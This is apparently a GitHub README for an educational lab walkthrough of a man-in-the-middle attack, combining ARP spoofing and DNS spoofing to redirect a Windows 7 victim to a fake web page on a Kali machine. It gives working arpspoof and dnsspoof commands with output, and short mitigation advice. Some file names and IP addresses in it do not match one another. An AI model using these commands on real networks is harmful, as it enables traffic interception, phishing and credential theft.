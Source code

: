 # DNS-Spoofing-Attack-Walkthrough

 📌 Introduction
This project demonstrates a **Man-in-the-Middle (MITM) attack using ARP spoofing and DNS spoofing** on a local network.  
The attacker (Kali Linux) poisons the ARP cache of both the **victim (Windows 7)** and the **gateway (router)**, intercepts DNS requests, and redirects them to a fake website hosted on the attacker machine using **Apache2**.  

⚠️ **Disclaimer**: This project is for **educational purposes only** in a controlled lab environment. Do not attempt on real networks.  

---

## 🖥️ Lab Setup
- **Attacker**: Kali Linux  
- **Victim**: Windows 7  
- **Gateway/Router** 
- **Network**: VMware/VirtualBox Host-only or NAT  

---

## ⚙️ Steps

### 1. Enable IP Forwarding

echo 1 > /proc/sys/net/ipv4/ip_forward

This allows Kali to forward traffic between victim and gateway.

---

2. ARP Spoofing

Poison victim’s ARP table (tell victim that attacker = router):

arpspoof -i eth0 -t 192.168.152.8 192.168.152.2


Poison router’s ARP table (tell router that attacker = victim):

arpspoof -i eth0 -t 192.168.152.2 192.168.152.50

---

3. Set Up Fake Website

Start Apache2 web server:

service apache2 start


Place your fake page inside:

/var/www/html/index.html

---

4. Create DNS Spoof File

Create dns.conf file in your home directory:

192.168.152.50    *


This redirects all DNS requests to attacker’s IP.

5. Run DNS Spoof
   
dnsspoof -i eth0 -f dns.com


📸 Example Output:

dnsspoof: listening on eth0 [udp dst port 53 and not src 192.168.152.50]

---

6. Victim Browsing

When the victim (Win7) visits any website, DNS request is spoofed → redirected to attacker’s web server.

---

📝 Results

Victim’s traffic successfully redirected.

Attacker controls DNS resolution.

Fake webpage displayed to victim.

---

🔒 Mitigation

Use HTTPS with DNSSEC

Enable static ARP entries

Use IDS/IPS tools like Snort

Avoid untrusted networks

---

📷 Screenshots

ARP Spoof terminal → [Arpspoof1.png](https://github.com/vaibhavkhare45/-DNS-Spoofing-Attack-Walkthrough/blob/main/Arpspoof1.png) , [arpspoof2.png](https://github.com/vaibhavkhare45/-DNS-Spoofing-Attack-Walkthrough/blob/main/arpspoof2.png)

DNS Spoof terminal → [dnsspoof.png](https://github.com/vaibhavkhare45/-DNS-Spoofing-Attack-Walkthrough/blob/main/dnsspoof.png)

Apache running → [apache.png](https://github.com/vaibhavkhare45/-DNS-Spoofing-Attack-Walkthrough/blob/main/apache.png)

Victim spoofed webpage → [victim_browser.png](https://github.com/vaibhavkhare45/-DNS-Spoofing-Attack-Walkthrough/blob/main/victim_browser.png)
